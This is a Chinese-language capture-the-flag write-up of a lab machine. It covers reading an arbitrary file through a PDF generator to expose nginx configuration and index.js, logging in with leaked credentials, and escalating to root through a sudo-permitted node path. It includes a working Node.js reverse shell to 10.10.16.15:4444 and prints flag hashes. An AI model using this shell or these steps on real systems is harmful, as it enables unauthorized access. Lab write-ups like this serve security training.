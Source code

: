 即可在生成的pdf看到生成的文件，存在一个任意文件读取

因为是nginx服务器，读取配置文件

```
/etc/nginx/nginx.conf
```

发现根目录为

```
/var/www/dev
```

nodejs主文件

```
{app|index|main}.js
```

测试可以读到 `index.js`

泄露了 dev用户信息 ,但是由于passwd里不存在dev用户,改用另一个 `angoose`成功登录

* user 33fbd350c4b54660da6d5e2526765848

#### root

`sudo -l`

![image-20230320210055306](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230320210055306.png)

我们可以执行 `node`目录的限定可以以穿梭绕过

生成一个nodejs反弹shell

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.16.15", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

* 没有任何模块所以无法使用 `child_process`

 成功拿到ROOT

* root 694c4e17c18faa76abf6f117765018e3

### Inject

#### user
